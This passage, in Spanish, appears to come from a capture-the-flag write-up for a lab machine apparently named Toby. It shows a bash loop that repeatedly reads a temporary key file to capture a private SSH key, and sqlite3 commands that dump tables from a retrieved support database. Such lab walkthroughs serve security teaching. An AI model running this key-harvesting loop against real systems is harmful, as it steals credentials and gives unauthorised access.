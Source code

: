 Ahora como vemos la vulnerabilidad en el id_rsa que se esta compartiendo. Lo que haremos es:

```s
while [ $? -ne 0 ]; do cat /tmp/*/key 2>/dev/null; done
```

Esto nos arrojara la llave privada para conectarnos por ssh y podremos conectarnos ahora directamente a la maquina.
Ahora en el repositorio de git que se tiene, se puede ver que existe un repo llamado suportsystem-db, el cual nos descargaremos y vemos que usa sqlite. Para conectarnos a este servicio podemos usar en nuestra maquina:

```s
sqlite3 support_system.db

.tables

.schema enc_meta

.schema support_enc

select * from enc_meta;

select * from support_enc;
```

![sqlite tables](/assets/images/Toby/sqlite_tables.png)

![tables info](/assets/images/Toby/tables_info.png)
